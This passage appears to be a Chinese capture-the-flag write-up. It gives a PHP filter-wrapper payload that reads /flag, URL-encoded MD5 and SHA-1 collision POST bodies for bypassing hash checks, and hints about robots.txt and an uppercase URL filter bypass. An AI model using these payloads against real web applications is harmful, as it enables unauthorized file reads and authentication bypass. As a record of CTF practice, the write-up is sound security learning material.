直接php伪协议读flag

```php
?file=php://filter/convert.base64-encode/resource=/flag
```

### level-up

#### level1

**robots.txt**

#### level2

md5强碰撞(hackbar和postwoman都发不好，bp先抓包到POST发包内容，然后改值)

```php
POST：
array1=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%A3njn%FD%1A%CB%3A%29Wr%02En%CE%89%9A%E3%8EF%F1%BE%E9%EE3%0E%82%2A%95%23%0D%FA%CE%1C%F2%C4P%C2%B7s%0F%C8t%F28%FAU%AD%2C%EB%1D%D8%D2%00%8C%3B%FCN%C9b4%DB%AC%17%A8%BF%3Fh%84i%F4%1E%B5Q%7B%FC%B9RuJ%60%B4%0D7%F9%F9%00%1E%C1%1B%16%C9M%2A%7D%B2%BBoW%02%7D%8F%7F%C0qT%D0%CF%3A%9DFH%F1%25%AC%DF%FA%C4G%27uW%CFNB%E7%EF%B0&array2=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%A3njn%FD%1A%CB%3A%29Wr%02En%CE%89%9A%E3%8E%C6%F1%BE%E9%EE3%0E%82%2A%95%23%0D%FA%CE%1C%F2%C4P%C2%B7s%0F%C8t%F28zV%AD%2C%EB%1D%D8%D2%00%8C%3B%FCN%C9%E24%DB%AC%17%A8%BF%3Fh%84i%F4%1E%B5Q%7B%FC%B9RuJ%60%B4%0D%B7%F9%F9%00%1E%C1%1B%16%C9M%2A%7D%B2%BBoW%02%7D%8F%7F%C0qT%D0%CF%3A%1DFH%F1%25%AC%DF%FA%C4G%27uW%CF%CEB%E7%EF%B0
```

#### level3

sha1强碰撞，同上

```php
POST
array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
```

#### level4

**url大写绕过**
